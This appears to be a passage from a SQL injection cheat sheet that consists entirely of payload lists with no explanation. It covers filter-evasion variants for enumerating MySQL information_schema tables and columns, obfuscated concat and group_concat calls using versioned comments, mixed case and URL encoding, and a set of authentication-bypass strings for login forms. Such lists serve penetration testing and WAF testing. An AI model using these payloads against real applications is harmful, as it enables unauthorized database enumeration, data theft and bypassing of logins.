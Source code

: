 ### Information_schema.tables bypass
```bash
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=database()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like database()-- -
/*!FrOm*/+%69nformation_schema./**/columns+/*!50000Where*/+/*!%54able_name*/=hex table
/*!FrOm*/+information_schema./**/columns+/*!12345Where*/+/*!%54able_name*/ like hex table
```
### Concat
```bash
CoNcAt()
concat() 
CON%08CAT()
CoNcAt()
%0AcOnCat()
/**//*!12345cOnCat*/
/*!50000cOnCat*/(/*!*/)
unhex(hex(concat(table_name)))
unhex(hex(/*!12345concat*/(table_name)))
unhex(hex(/*!50000concat*/(table_name)))
```
### group_concat
```bash
/*!group_concat*/()
gRoUp_cOnCAt()
group_concat(/*!*/)
group_concat(/*!12345table_name*/)
group_concat(/*!50000table_name*/)
/*!group_concat*/(/*!12345table_name*/)
/*!group_concat*/(/*!50000table_name*/)
/*!12345group_concat*/(/*!12345table_name*/)
/*!50000group_concat*/(/*!50000table_name*/)
/*!GrOuP_ConCaT*/()
/*!12345GroUP_ConCat*/()
/*!50000gRouP_cOnCaT*/()
/*!50000Gr%6fuP_c%6fnCAT*/()
```
### Authen bypass
```bash
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
```